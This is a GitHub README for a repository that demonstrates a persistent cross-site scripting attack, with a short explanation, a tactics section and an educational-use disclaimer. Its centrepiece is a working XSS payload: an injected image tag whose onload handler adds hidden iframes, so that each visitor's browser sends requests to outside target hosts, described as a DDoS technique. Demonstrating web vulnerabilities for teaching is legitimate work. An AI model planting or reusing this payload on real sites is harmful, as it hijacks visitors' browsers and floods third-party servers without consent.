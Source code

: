 <p align="center">
  <img src="https://weplaywithfirehere.files.wordpress.com/2023/08/img_7076.jpg" alt="XSS Vulnerability Demo Logo" width="200"/>
</p>

<h1 align="center">𖤐 Persistent Cross-Site Scripting (XSS) Vulnerability Demo 𖤐</h1>

<p align="center">
  <a href="https://www.gnu.org/licenses/"><img src="https://img.shields.io/badge/License-GNU-yellow.svg" alt="License: GNU"></a>
  <a href="https://jquery.com/"><img src="https://img.shields.io/badge/jQuery-%3E%3D%203.5.1-brightgreen" alt="jQuery Version"></a>
  <a href="https://github.com/tukru/Persistent-Cross-Site-Scripting"><img src="https://img.shields.io/badge/Repo-GitHub-blue" alt="GitHub Repository"></a>
</p>

<p align="center">
  This repository contains a professional demonstration of a persistent Cross-Site Scripting (XSS) vulnerability. It illustrates how an insecure image tag can be exploited to inject malicious JavaScript code into a web page, leading to potential security risks.
</p>

---

## 𖤐 Description

The code in this repository demonstrates a common security vulnerability known as persistent Cross-Site Scripting (XSS). By not properly validating or sanitizing user input, malicious code can be injected into a web page and executed by other users who view the affected page.

## 𖤐 Code Example

```html
<img src="/imagename.jpg" onload="ddos('http://www.target1.com/1.jpg', 'http://www.target2.com/1.jpg');">
...
function ddos(url1, url2) {
  $("body").append("<iframe id='ifri_1523' style='display:none;' src='" + url1 + "'></iframe>");
  $("body").append("<iframe id='ifri_1524' style='display:none;' src='" + url2 + "'></iframe>");
}
...
```
𖤐 Methodologies and Tactics

The code leverages the onload event in an image tag to execute arbitrary JavaScript code once the image has finished loading. This code can be used to perform various malicious activities, such as launching a Distributed Denial of Service (DDoS) attack.

    Methodology: Persistent XSS attack
    Tactics: Utilizing insecure image tags, exploiting the lack of input validation and sanitization

𖤐 Disclaimer

This code is provided for educational and research purposes only. It demonstrates a known security vulnerability and should not be used maliciously or without proper authorization.
𖤐 License

This project is licensed under the GNU General Public License. See the LICENSE.md file for details.
<p align="center">
  Made with ❤️ by <a href="https://github.com/tukru">tukru</a>
</p>
